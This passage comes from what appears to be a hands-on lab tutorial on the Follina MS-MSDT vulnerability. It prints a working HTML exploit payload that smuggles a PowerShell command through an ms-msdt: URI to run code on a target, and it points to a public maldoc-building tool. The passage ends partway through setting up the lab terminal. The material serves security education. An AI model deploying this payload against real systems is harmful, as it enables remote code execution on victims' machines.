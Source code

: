 The only thing left to do now is to host the payload that the word file will be connecting to, and receiving instructions from upon opening of the file. This is done by creating an html file with a structure similar to this:

```
<!doctype html>

<html lang="en">

<body>

<script>

//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times

  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";

</script>

</body>

</html>
```

In the above contents of the html file, you'd notice the ms-msdt:/id PCWDiagnostic /skip force /param command, along with the command switches you can use to set the command you want to execute in the target machine. You can then mix and match the payload according to your purposes.

As such, we now have a way to achieve remote code execution without touching any macros, and as we'll see later, without even opening the malicious document.

Publicly Available Exploit Focus: [JohnHammond/msdt-follina](https://github.com/JohnHammond/msdt-follina)

John Hammond has created a tool to automate the process of creating a malicious document (maldoc) and consequently host the malicious html file that houses the bad command. The tool is documented in the link above, and we will be using a forked version of it to further understand the concept of the exploit touched upon earlier.

To start with our experiment, open a terminal instance in your Attackbox and enter the following command:

```

msdt-follina

           
root@attackbox:~# cd ~/Rooms/Follina-MSDT

```

We change our working directory to ~/Rooms/Follina-MSDT, where the msdt-follina repository has been cloned for you.
